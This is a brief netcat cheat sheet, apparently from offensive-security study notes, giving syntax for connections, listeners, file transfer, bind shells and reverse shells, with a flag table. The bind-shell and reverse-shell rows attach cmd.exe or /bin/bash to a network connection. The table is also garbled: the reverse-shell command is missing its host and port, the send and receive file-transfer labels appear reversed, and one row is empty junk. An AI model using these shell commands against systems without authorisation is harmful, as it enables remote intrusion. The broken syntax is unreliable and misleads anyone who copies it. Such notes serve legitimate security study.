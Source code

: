 # Cheat Sheets

## Netcat

| Common Use Case | Syntax |
| :--- | :--- |
| Connect | `nc -nv <target ip> <port>` |
| Listen | `nc -nvl <port>` |
| File Transfer - Send | `nc -nvl <port> > filename` |
| File Transfer - Receive | `nc -nv <target ip> <port> < filename` |
| Bind Shell - Host | `nc -nvl <port> -e <shell>` |
| Rev Shell - Host | `nc -nv  -e <shell>` |
| \`\` |  |

{% hint style="info" %}
&lt;shell&gt; is usually cmd.exe on Windows or /bin/bash on Linux
{% endhint %}

| Command Line Arg | Purpose |
| :--- | :--- |
| -n | Skip DNS lookup |
| -v | Verbsose output |
| -l | Listener mode |
| -e | Connect program to network |



